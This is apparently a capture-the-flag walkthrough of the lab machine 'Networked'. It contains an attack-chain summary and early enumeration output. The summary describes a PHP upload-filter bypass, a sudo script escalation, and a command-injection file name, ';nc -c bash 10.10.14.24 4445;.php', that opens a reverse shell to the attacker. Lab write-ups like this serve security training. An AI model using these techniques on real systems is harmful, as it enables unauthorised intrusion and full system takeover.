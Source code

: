 # Networked
```
Difficulty: Easy
Operating System: Linux
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
|:---|:---|:---|:---|
| 1 | `apache` | Unrestricted File Upload & PHP RCE | Discovered an upload form on the website. Analyzed the application's source code from a `backup.tar` file, which revealed file validation weaknesses. By including `GIF8` magic bytes and using a `.php.gif` file extension, I bypassed mime type and extension checks. This misconfiguration, which allowed the web server to execute `.php.*` files as PHP scripts, led to Remote Code Execution (RCE) and a shell as the `apache` user. |
| 2 | `guly` | Cron Job Manipulation & Command Injection | Enumerated the system as `apache` and found a cron job running a PHP script (`check_attack.php`) as the user `guly`. The script checked for improperly named files in the `/uploads/` directory and used `exec()` to delete them. By creating a file named with a command injection payload (`;nc -c bash 10.10.14.24 4445;.php`), I was able to inject and execute a command as `guly` when the cron job ran, gaining a shell as the `guly` user. |
| 3 | `root` | Sudo Misconfiguration & Path Injection | Discovered that the user `guly` could run `/usr/local/sbin/changename.sh` as `root` without a password. Analyzing the script showed that it took user input and echoed it to a file without proper quoting. By providing `test bash` as input for one of the variables, the `echo` command executed `bash` with root privileges, granting a root shell. |



## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https
```
Since port 80 is the only obvious path to get into this box, let's dig into it.  
Let's run directory enumeration scans on this host:
```
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
```
we can see the above directories.  
As we hit the site we can see an index.php file opens, so, let's run file enumeration for .php extension  
```
/index.php            (Status: 200) [Size: 229]
/upload.php           (Status: 200) [Size: 169]
/lib.php              (Status: 200) [Size: 0]
```
The upload function shows an upload form.  
Now let's dig into /backup directory.  
Inside here we can find a backup.tar file containing a backup of all the code that is running on the website.
